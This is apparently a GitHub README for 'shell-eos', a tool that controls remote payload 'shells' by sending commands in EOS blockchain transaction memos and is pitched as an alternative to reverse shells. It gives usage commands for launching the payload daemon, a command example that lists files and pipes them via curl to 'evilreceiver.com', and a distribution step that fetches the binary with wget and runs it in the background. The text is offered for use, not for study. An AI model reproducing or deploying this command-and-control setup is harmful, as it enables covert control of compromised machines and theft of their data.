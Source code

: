 # shell-eos
Decentralized shell over eos blockchain to send commands by eos blockchain to the shells.

Avoid reverse shell usage , who requires online server listening for connections.

## Run the shell as a payload

Run the command to start the daemon listening in the blockchain address. When receives a new transacion the shell search the command in the memo of transaction to execute it.

`python3 payloads/shell-eos.py eosaccountname accountmaster`

*account master is who the bot obey

Send to a EOS address command line to execute orders

## Execute commands in each listening shell

`python3 payloads/send-eos.py eosaccountname` "ls -lsa | xargs ... | curl https://evilreceiver.com" .... -d {1}

## Publish datasets in a address as a recipient

`python3 payloads/send-eos.py eosaccountname` "data" "separator"

## Compile

`./compile.sh`

## Payload distribution

- Compile

- Upload to your prefered file server

`wget https://yourpreferedserver.com/path ; ./binaryname redaccount masteraccount &`




